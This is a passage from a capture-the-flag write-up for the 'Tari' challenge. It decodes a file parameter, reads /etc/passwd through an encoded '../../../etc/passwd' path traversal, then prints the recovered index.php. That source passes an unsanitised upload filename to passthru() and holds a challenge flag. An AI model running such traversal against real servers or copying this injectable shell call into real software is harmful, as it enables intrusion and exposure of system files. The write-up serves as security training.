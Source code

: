 Try to change `name`, but got a error:

![](https://i.imgur.com/J1ir0Ld.png)

Than let's try another parameter. First decode the `file`:

```
03c0ec25a3cd7de367da1ff7c5461e8d.tar.gz
```

So maybe a path traversal here? Encoded `../../../etc/passwd` and filled in:

![](https://i.imgur.com/lkYNtW0.png)

So it works, try to download `index.php`:

```php
<h1>Tari</h1>
<p>Tari is a service that converts your file into a .tar.gz archive.</p>
<form action="/" method="POST" enctype="multipart/form-data">
    <input type="file" name="file" />
    <input type="submit" value="Upload" />
</form>
<?php
function get_MyFirstCTF_flag()
{
    // **MyFirstCTF ONLY FLAG**
    // Please IGNORE this flag if you are AIS3 Pre-Exam Player

    // Congratulations, you found the flag!
    // RCE me to get the second flag, it placed in the / directory :D
    echo 'MyFirstCTF FLAG: AIS3{../../3asy_pea5y_p4th_tr4ver5a1}';
}

function tar($file)
{
    $filename = $file['name'];
    $path = bin2hex(random_bytes(16)) . ".tar.gz";
    $source = substr($file['tmp_name'], 1);
    $destination = "./files/$path";
    passthru("tar czf '$destination' --transform='s|$source|$filename|' --directory='/tmp' '/$source'", $return);
    if ($return === 0) {
        return [$path, $filename];
    }
    return [FALSE, FALSE];
}

if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    $file = $_FILES['file'];
    if ($file === NULL) {
        echo "<p>No file was uploaded.</p>";
    } elseif ($file['error'] !== 0) {
        echo "<p>Error: Upload error.</p>";
    } else {
        [$path, $filename] = tar($file);
        if ($path === FALSE) {
            echo "<p>Error: Failed to create archive.</p>";
        } else {
            $path = base64_encode($path);
            $filename = urlencode($filename);
            echo "<a href=\"/download.php?file=$path&name=$filename.tar.gz\">Download</a>";
        }
    }
}
```
